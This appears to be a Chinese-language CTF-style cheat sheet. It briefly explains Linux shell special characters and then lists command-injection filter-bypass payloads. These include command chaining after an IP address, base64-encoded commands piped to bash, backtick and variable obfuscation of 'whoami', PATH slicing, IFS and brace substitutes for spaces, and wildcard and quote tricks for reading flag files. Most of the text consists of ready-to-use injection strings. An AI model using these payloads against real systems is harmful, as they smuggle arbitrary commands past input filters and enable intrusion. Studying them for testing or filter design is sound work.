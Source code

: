 Linux shell特殊字符
【;】作为多个命令语句的分隔符(Command separator [semicolon])。 要在一个语句里面执行多个命令时，可以使用分号分隔。注意，有时候分号需要转义。

【|】管道(pipe)。管道是Linux，Unix都有的概念，是非常基础，也是非常重要的一个概念。它的作用是将管道前（左边）的命令产生的输出(stdout)作为管道后（右边）的命令的输入(stdin)。

【{}】代码块(curly brackets)。 这个是匿名函数，但是又与函数不同，在代码块里面的变量在代码块后面仍能访问。注意：花括号内侧需要有空格与语句分隔。


linux命令执行绕过姿势总结（参考链接）
1）|| 符号 当前一条命令执行结果为false 就执行下一条命令
2）| 符号 只执行 | 符号后面的命令
3）&&符号 当前一条命令执行结果为true 就执行下一条命令
4）&符号 只执行 & 符号后面的命令
5）; 符号 不管前一条命令执行的结果是什么，执行下一条命令
6）a=l;b=s;$a$b        //变量覆盖
7）`echo d2hvYW1p | base64 -d `     echo d2hvYW1p | base64 -d | bash          //base64绕过
8）w`saaaddd8450`ho`762aseba2`am`f0j71`i      wh$(caigou)oa$(anquan)mi       666`whoami`666      //反引号加混淆
9）wh$1oami        who$@ami        whoa$*mi       //$1、$@、$*混淆
10）${PATH:5:1}${PATH:2:1}   （执行了ls）  //提取环境变量中的字符执行命令(注意切片是从0开始计数的)对于环境变量字符过少的问题，可以通过export PATH=$PATH:/abcdefg/hijklmn/opq/rst/uvw/xyz/0123456789设置临时环境变量


Linux下空格绕过方式
1）cat${IFS}flag.txt
2）cat$IFS$1flag.txt    //此处的数字可以换
3）cat<flag.txt
4）cat<>flag.txt
5）{cat,flag.txt}   //在大括号中可用逗号代替空格(前面没有$)


备注：在Linux中cat${IFS}flag.php和空格类似，感觉有点是${IFS}替换了空格；IFS默认值是空格、制表符和换行符，IFS可以认为是Linux中的一个全局变量

例如：
127.0.0.1;cat$IFS$1index.php


Linux下对过滤字符的绕过方式
1）cat fl* //利用*可以任意匹配一个或多个字符
2）cat fl?g //利用?可以任意匹配一个字符
3）echo “Y2F0IGZsYWcucGhw”| base64 -d | bash //base64编码为所要执行的shell命令
4）ca\t fl\ag.php //有待了解
5）cat fl''ag.php
6）a=a;cat${IFS}fl$ag.php //通过变量覆盖绕过字符过滤
7）cat `ls`    //通过命令引用绕过


Linux下变量引用
1）$变量名 和 ${变量名}  //当变量名后跟其他字符时，要用大括号括起来或者直接在变量名后加一个$1

Linux下命令引用
1）$(命令语句) 和  ` 命令语句`(反引号)